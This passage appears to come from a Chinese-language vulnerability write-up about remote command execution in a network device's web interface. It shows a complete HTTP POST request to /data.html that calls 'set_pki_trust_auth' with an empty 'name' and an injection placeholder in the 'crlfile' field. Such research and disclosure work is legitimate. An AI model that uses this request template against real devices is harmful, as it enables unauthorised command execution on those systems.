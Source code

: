我们的crlfile值保存在0x180的位置,正好符合mgd_pki_auth_cfg的调用
![img](./data1.jpg)

### RCE总结

我们的注入点在crlfile,直接不提供name就可以注入。

```https
POST /data.html HTTP/1.1
Host: xxx.xxx.xxx.xxx:xxxx
Cookie: __s_sessionid__=6tjn05tfnpjti1pgm0083b49a0
Content-Length: 199
Sec-Ch-Ua-Platform: "macOS"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Sec-Ch-Ua: "Chromium";v="134", "Not:A-Brand";v="24", "Google Chrome";v="134"
Content-Type: application/json; charset=UTF-8
Token: xxxxxxxxxx
Referer: https://xxx.xxx.xxx.xxx:xxxx/login


[
    {
        "head": {
            "function": "set_pki_trust_auth",
            "module": "pki",
            "page_index": 1,
            "page_size": 20
        },
        "body": {
            "pki_auth_cp": {
                "name": "",
                "crlfile": "command injection"
            }
        }
    }
]
```